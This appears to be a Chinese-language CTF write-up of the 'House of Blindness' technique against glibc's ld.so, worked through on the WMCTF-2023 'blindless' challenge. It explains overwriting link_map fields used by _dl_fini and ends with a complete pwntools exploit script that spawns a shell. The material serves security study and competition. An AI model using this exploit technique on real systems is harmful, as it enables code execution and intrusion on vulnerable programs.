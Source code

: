 ```yaml
---
id: glibc-blindness
aliases: []
tags:
  - Glibc
date: 2023-09-25 23:04:22
title: GLIBC - exploiting-the-latest-glibc-0x01 House of Blindness
---
```

# TLDR;

House of blindless 是一个涉及到 rtld 的利用方法，事实上 ld.so 里面确实还有很多被利用的潜力，后面涉及到 glibc 的比赛题目可能也会偏向于考察这部分内容。

直接以 `WMCTF-2023-blindless` 为例，附件链接：

[attachment](https://drive.google.com/file/d/1AF3JrobITUa0dj_bfVrcMBJXOQIJgM86/view?usp=sharing)

# Analysis

程序漏洞：

给了一个类似 bf 的 vm 程序，不过难得的逻辑很简单，可以实现在堆地址上加偏移的任意地址写，但是没有泄漏，这很明显需要某种 HOUSE 来打，这里考虑到 `house of blindless`：

低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数，要求：

- 能够实现 elf 或 libc 范围内的任意地址写（本题可以分配大型堆块到 libc 前，进而实现 libc 范围内的任意写）

- 程序正常退出

参考到 ld.so 源码，elf/dl-fini.c 中的 \_dl_fini() 函数中：

```c
/* 其中关键定义如下： */
#define DT_INIT 12
#define DT_FINI 13
#define DT_FINI_ARRAY 26

/* Is there a destructor function?  */
if (l->l_info[DT_FINI_ARRAY] != NULL || l->l_info[DT_FINI] != NULL)
{
    /* When debugging print a message first.  */
    if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
        _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                          DSO_FILENAME (l->l_name),
                          ns);

    /* First see whether an array is given.  */
    if (l->l_info[DT_FINI_ARRAY] != NULL) // 分支1
    {
        ElfW(Addr) *array =
            (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
        unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
        while (i-- > 0)
            ((fini_t) array[i]) ();
    }

    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) // 分支2
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

这里有两条分支，要劫持控制流就需要到达控制 `l->l_info[26] == 0` 绕过分支1，接下来分为能控制 elf+libc 和 仅能控制 libc 的两种情况：

**控制 elf+libc**：

> 由于能控制 elf，就可以改到 l->l_info[DT_FINI] 上具体的值，进而直接在 l_addr 的基础上进行任意 elf 地址调用。

```c
l->l_info[13]->d_un.d_ptr = <target> - elf_base;
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

**若仅能控制 libc**：

```c
/* 在 l->l_info[13] 附近找到其他 Elf64_Dyn 类型结构体，且其 d_un.d_ptr 正好满足我们需求 */
*(char *)l->l_addr = <target> & 0xff // 改写低位
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

---

# Exploitation

于是利用第二种思路得到本题 exp：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)


payload = b""


def go_forward(distance):
    global payload
    payload += b"@"
    payload += p32(distance)


def next_byte():
    global payload
    payload += b">"


def next_long():
    global payload
    payload += b"+"


def change_byte(data):
    global payload
    lg("data", data)
    payload += b"."
    payload += p8(data)


def edit(data):
    global payload
    for i in range(len(data)):
        change_byte(data[i])
        next_byte()


DT_FINI = 13
DT_INIT = 12
DT_FINI_ARRAY = 26
_rtld_global_to_chunk = 0x323060
arg0 = _rtld_global_to_chunk + 2312
l_addr = 0x324190


go_forward(arg0 - 0x10)
edit(b"/bin/sh\x00")
go_forward(l_addr - arg0 - 8)
edit(p8(0xE0))
go_forward(0xA8 - 1)
edit(p8(0xA8))
go_forward(0x68 - 1)
edit(p64(0))

payload += b"q"

ru(b"Pls input the data size\n")
sl(i2b(0x100000))
ru(b"Pls input the code size\n")
sl(i2b(0x100))
ru(b"Pls input your code\n")
s(payload)

ia()
```
